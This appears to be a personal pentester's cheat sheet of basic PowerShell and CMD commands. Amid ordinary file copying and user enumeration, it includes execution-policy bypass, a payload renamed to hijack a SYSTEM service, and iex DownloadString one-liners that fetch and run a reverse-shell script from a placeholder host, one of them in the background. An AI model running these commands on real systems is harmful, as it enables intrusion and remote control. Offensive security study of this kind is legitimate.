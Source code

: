 ```yaml
---
description: The basic of Powershell and CMD
---
```


# Basic Command

This note was created when I was not very familiar with the Windows environment. I didn't know how to restart the machine from the command line, copy files, or import PowerShell scripts, etc.

### Basic PowerShell

Enter powershell with Execution Policy Bypass

{% code overflow="wrap" %}
```powershell
powershell -ep bypass
```
{% endcode %}

Or, if you already inside powershell session, you can set Execution Policy with this command:

{% code overflow="wrap" %}
```powershell
Set-ExecutionPolicy Bypass -Scope CurrentUser
```
{% endcode %}

Load powershell script function into memory with dot sourcing:

```powershell
. .\PowerView.ps1
```

Import module to powershell:

{% code overflow="wrap" %}
```powershell
import-module .\Powerspolit.psd1
```
{% endcode %}

### Check All Available Powershell Command

```powershell
Get-Command -Name "*Invoke*"
Get-Command
```

<figure><img src="https://blogger.googleusercontent.com/img/b/R29vZ2xl/AVvXsEi61t18ptuUTq7RFezUuspvOLZt26gJsqhnA38XRxnwdt02TaEFATWJ6ync6A5wFyxIFcxGmO398G_e8-34zU4uxRBoMAfTCI4BYs8jGqu8EuJ5kf46MBJodCkK2jhkppnjSTRg3_a-bkKCAOsgiMfnA60mltPRIPan1H30PrwhKRNCDLOhFSW0Ax-3M14/s1010/get%20all%20available%20command.png" alt=""><figcaption><p>Get-Command</p></figcaption></figure>

### Copy  & Move

How to copy file:

{% code overflow="wrap" %}
```powershell
copy source.exe destination.exe
```
{% endcode %}

How to copy directory:

```powershell
xcopy C:\source_dir D:\dest_dir /E /I /Y
```

Explanation:

* `/E` – Copies all subdirectories, including empty ones.
* `/I` – If the destination does not exist and copying more than one file, this option assumes that the destination must be a directory.
* `/Y` – Suppresses prompting to confirm you want to overwrite an existing destination file.

How to Move File or Directory

{% code overflow="wrap" %}
```powershell
move payload.exe C:\temp\service.exe
```
{% endcode %}

### Rename&#x20;

Sometimes, after found service run as SYSTEM user and writable by low user, you can drop payload to the directory and rename the payload to match the service name.

```powershell
ren Payload.exe Service.exe
```

### Download

certutil.exe

{% code overflow="wrap" %}
```powershell
certutil -urlcache -split -f https://example.com/example.txt example.txt
```
{% endcode %}

powershell.exe: Invoke-WebRequest

{% code overflow="wrap" %}
```powershell
iwr -Uri "http://172.16.8.1:9005/PowerView.ps1" -OutFile "PowerView.ps1"
```
{% endcode %}

### Download and Execute

powershell.exe: Invoke-Expression

{% code overflow="wrap" %}
```powershell
iex ((New-Object Net.WebClient).DownloadString('http://example.local/Invoke-PowerShellTcpOneLine.ps1'))
```
{% endcode %}

Or, from cmd.exe to powershell.exe

{% code overflow="wrap" %}
```powershell
powershell.exe -NoP -ExecutionPolicy Bypass -Command "iex ((New-Object Net.WebClient).DownloadString('http://example.local/Invo
ke-PowerShellTcpOneLine.ps1'))"
```
{% endcode %}

Or, use start /B to run the command in background.

{% code overflow="wrap" %}
```powershell
start /B powershell.exe -NoP -ExecutionPolicy Bypass -Command "iex ((New-Object Net.WebClient).DownloadString('http://example.local/Invoke-PowerShellTcpOneLine.ps1'))"
```
{% endcode %}

### Restart and Shutdown

Shutdown now:

```powershell
shutdown /s /t 0 /f
```

Restart now:

{% code overflow="wrap" %}
```powershell
shutdown /r /t 0 /f
```
{% endcode %}

### Convert to Base64

{% code overflow="wrap" %}
```powershell
[convert]::ToBase64String((Get-Content -path "20230908145747_BloodHound.zip" -Encoding byte))
```
{% endcode %}

### Privileges, User, and Groups

User stuff:

```
whoami /all
whoami /priv
whoami /group
net user
net user asuka
```

<figure><img src="https://blogger.googleusercontent.com/img/b/R29vZ2xl/AVvXsEjyAVj1INMgIeK5kh7G_9aPZ8U60HuQWWzeXPLIAI75N0amaCt9yVQGeLxkGMaiZ6xqL7eSy1g5ctN9w-Uk-oZqg65VCrqaK5NnEFbbNdlq-y880XX5zP4Vik8P8YxsI7Lx3vVgRe4skx0wZhr9_z8HSFa0ES55QW7-kxsvPdO23Vjw5NaLRm-KGSVzUXE/s1021/whoami%20all.png" alt=""><figcaption><p>whoami /all</p></figcaption></figure>

Check Local Group using Command Prompt:

```
net localgroup
net localgroup Administrators
```

Check group member

{% code overflow="wrap" %}
```powershell
Get-LocalGroupMember -Group "Administrators"
Get-LocalGroupMember -Group "Administrators" |  Select-Object *
```
{% endcode %}

<figure><img src="https://blogger.googleusercontent.com/img/b/R29vZ2xl/AVvXsEhSwKtfQSeG7PGNF6Oz3A6iAK9G1lYqf6INpoLtXifRQHdHqNbR6yN3WfZMGEpZOU1wLxVpkZUB7iPEHLyHN0jENDO_QZIx-yO4tne-Buag5dDr8vINN3oxc3rlNM4xXznS5zNAushx6aqkR6Kd-F1La5jsSL0u7ClbtOsz2TcrczzRK91x_vLjZqKL4s4/s1050/powershell%20command.png" alt=""><figcaption><p>Get-LocalGroupMember</p></figcaption></figure>
